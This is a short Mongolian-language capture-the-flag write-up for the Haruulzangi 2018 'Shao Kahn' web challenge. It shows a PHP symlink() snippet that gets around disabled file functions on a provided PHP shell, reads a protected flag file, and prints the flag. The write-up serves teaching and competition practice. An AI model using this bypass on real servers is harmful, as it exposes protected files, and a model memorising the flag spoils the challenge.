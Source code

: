 # Haruulzangi 2018 Round 3 : Shao Kahn

**Category:** Web
**Points:** 1000
**Solves:** 1
**Description:**

>/tmp/shaokahnflag.php-ийг уншаад флагаа авааарай. Энэ их хэцүү байх болно.
>http://218.100.84.106:8060/

## Write-up
Бидэнд php-shell өгөгдсөн тул эхлээд жоохон туршилт хийж үзье. :)

phpinfo() функцээр шалгаж үзэхэд файлтай хандах ихэнх функц ашиглах боломжгүй байна.

![pic](phpinfo.png)

Ингээд ашиглаж болох фунцк нь ***[PHP : symlink](http://php.net/manual/en/function.symlink.php)*** байгаа тул ашиглаад.. флагаа олж авъя.

~~~~
<?php
$target = '/tmp/shaokahnflag.php';
$link = 'some.php';
symlink($target, $link);
?>
~~~~

/some.php линкээр хандаж флагаа олж авна.

![pic](flag.png)

>flag `HZ{fastcg1pack3t.Really!!}`
